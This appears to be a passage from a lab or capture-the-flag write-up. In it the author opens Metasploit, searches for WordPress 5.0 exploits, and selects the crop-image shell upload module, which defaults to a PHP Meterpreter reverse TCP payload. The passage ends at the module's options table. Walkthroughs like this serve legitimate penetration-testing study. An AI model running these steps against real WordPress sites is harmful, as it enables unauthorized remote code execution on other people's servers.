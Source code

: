 from our result we can see that there is a metasplot exploit for wordpress 5.0. Let’s try and wee what we get from there

```bash
$ >.. msfconsole 
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.3.25-dev                          ]
+ -- --=[ 2332 exploits - 1219 auxiliary - 413 post       ]
+ -- --=[ 1385 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View a module's description using 
info, or the enhanced version in your browser with 
info -d
Metasploit Documentation: https://docs.metasploit.com/
msf6 > search wordpress 5.0

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   3  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi

Interact with a module by name or index. For example info 3, use 3 or use auxiliary/scanner/http/wp_registrationmagic_sqli
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > show options
Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
```